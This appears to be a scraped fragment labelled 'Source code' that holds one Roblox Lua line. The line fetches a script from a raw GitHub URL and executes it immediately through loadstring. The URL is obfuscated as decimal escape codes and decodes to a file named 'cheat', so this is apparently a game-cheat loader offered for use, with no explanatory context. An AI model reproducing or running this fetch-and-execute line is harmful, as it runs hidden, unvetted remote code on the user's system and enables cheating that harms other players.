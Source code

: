 loadstring(game:HttpGet("\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\71\111\108\100\111\49\50\51\54\47\97\110\111\110\121\109\111\117\115\47\109\97\105\110\47\99\104\101\97\116"))() 
